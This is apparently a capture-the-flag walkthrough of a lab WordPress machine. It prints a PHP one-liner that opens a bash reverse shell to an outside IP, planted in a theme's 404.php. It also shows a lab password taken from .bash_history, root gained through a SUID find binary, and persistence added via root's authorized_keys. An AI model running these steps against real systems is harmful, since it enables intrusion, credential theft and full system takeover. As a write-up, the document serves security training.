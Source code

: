 We use [pentest monkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) Change the ip and port to yours.

But weirdly it was not working, So I tried a simple php exec

```
<?php exec("bash -c 'exec bash -i &>/dev/tcp/10.10.14.2/1234 <&1'");?>
```

We update it, it shows an error for `twentytwenty` theme so we cycle through others and it updates for `twentynineteen`

So we navigate to 
```
http://10.10.110.100:65000/wordpress/wp-content/themes/twentynineteen/404.php
```

Change our user to james using the previous password and we find the flag in james home directory.

Listing everything in the directory we find a `.bash_history` file reading it we find the mysql creds for user `balthazar` so we try to ssh and it works.

![[Pasted image 20210903112332.png]]
`TheJoker12345!`

## Show me the way
Lets start the Privilege escalation and look for SUID binaries.

`sudo -l` is not working as its saying balthazar or james can't run as sudo 
So we use the old faithful

```bash
find / -perm -u=s -type f 2>/dev/null
```


The out of the ordinary ones are 
```
/usr/bin/vmware-user-suid-wrapper
/usr/bin/find
```

Let's goto GTFO and get ourselves a root.
We use the find suid

```bash
find . -exec /bin/sh -p \; -quit
```

We get a root shell, We go to the root directory and find `flag.txt` along with `wordpress_backup`

Now to login as root for later uses we add our local `id_rsa.pub` to the authorized keys on the target machine and login as root from our machine.

```
ssh root@10.10.110.100
```

The above command will only work after you add your `id_rsa.pub` key to target's authorized keys.

